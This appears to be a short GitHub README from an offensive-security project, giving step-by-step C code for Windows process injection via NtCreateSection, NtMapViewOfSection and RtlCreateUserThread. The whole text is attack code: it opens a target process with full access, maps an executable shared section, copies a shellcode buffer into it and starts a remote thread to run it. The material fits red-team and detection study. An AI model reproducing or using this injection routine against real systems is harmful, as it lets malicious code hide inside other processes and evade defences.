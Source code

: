 [Why duplicate work? iRed.team has a great writeup](https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection)
<br><br><br>

STEP #1 create a memory section
	fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
	
STEP #2	create a view of the memory section in the local process
	fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);

STEP #3 create a view of the memory section in the target process
	HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, 1480);
	fNtMapViewOfSection(sectionHandle, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);

STEP #4 copy shellcode to the local view, which will get reflected in the target process's mapped view
	memcpy(localSectionAddress, buf, sizeof(buf));
	
STEP #5 HANDLE targetThreadHandle = NULL;
	fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);

	return 0;

